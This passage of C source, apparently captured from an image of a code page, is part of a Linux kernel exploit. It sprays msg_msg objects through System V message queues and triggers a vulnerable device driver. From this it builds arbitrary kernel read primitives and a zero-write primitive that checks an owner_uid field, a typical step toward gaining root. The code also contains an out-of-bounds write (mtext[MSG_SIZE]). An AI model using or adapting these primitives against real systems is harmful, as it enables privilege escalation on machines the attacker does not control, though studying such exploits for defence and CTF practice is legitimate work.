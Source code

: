 ```c
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Read
    dev_info(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

    return request.info.owner_uid;
}

// Read 64-bit primitive
unsigned long read_long(unsigned long where) {

    unsigned long p1, p2;
    p1 = read_int(where);
    p2 = read_int(where + 4);
    return p1 | (p2 << 32);
}

// Write 32-bit zero primitive
int write_int_zero(unsigned long where) {

    // Check current value
    if (!read_int(where)) {
        // Already zero, nothing to do
        return 0;
    }

    // Check owner_uid constraint
    unsigned int value = read_int(where + 4);
    unsigned int curr = (unsigned int) getuid();
    if (value != curr) {
        printf("[*] Cannot write here: found value %u, current uid %u!\n", value, curr);
        return -1;
    }

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x10
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - PUBLIC_OFF;

    // Post message - allocate msg_msg
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Write
    dev_toggle(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

    return 0;
}
```